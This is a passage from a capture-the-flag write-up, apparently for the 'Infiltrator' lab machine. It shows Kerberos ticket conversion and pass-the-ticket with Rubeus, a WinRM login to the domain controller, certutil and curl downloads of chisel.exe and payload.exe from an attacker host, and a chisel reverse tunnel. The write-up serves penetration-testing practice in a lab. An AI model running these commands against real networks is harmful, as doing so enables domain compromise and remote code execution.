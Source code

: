 Another pro tip: Make sure your VPN interface’s DHCP server points to the DC IP (10.10.11.31), otherwise Kerberos throws a hissy fit. 

If it asks to add an account, just politely decline. Restart your VM, sign in as a **local user**, and don’t forget to slap that firewall off — this isn’t a hotel lobby.

![](/assets/images/writeups/infiltrator/Join-AD.png)

Next we can convert the `ccache` file to Kirbi and inject our ticket into memory using Rubeus.

```powershell
PS C:\> python C:\Tools\Python\ticketConverter.py .\m.harris.ccache m.harris.kirbi
[*] converting ccache to kirbi...
[+] done

PS C:\> C:\Tools\Rubeus.exe ptt /ticket:m.harris.kirbi
```

Aight we’re in. Since `m.harris` got that sweet Remote Management privilege, we Kerberos-yeet ourselves into a WinRM shell like some kind of enterprise wizard. Once inside, it’s business as usual: HTTP server up, chisel in hand, and we're tunneling like it’s 1999.

```powershell
PS C:\> python -m http.server
PS C:\> winrm set winrm/config/client '@{TrustedHosts="*"}'
PS C:\> Enter-PSSession -ComputerName dc01.infiltrator.htb -Authentication Kerberos
[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
```


[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe